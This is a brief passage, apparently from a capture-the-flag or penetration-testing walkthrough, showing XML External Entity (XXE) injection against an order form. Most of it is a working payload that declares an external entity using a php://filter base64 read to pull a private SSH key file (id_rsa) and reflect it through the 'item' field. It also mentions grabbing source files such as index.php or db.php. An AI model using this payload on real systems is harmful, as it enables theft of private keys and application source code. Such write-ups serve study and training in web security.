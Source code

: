 Identify which elements that we can control are displayed back to us, in this case is 
item
```
<?xml version = "1.0"?>
<order>
	<quantity>
		1
	</quantity>
	<item>
		&company;
	</item>
	<address>
		1
	</address>
	</order>

Try to get source code like index.php or db.php, change to : >>>>>

<?xml version = "1.0"?>
<!DOCTYPE item [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=c:/users/daniel/.ssh/id_rsa">
]>
<order>
	<quantity>
		1
	</quantity>
	<item>
		&company;
	</item>
	<address>
		1
	</address>
	</order> 
	
	```

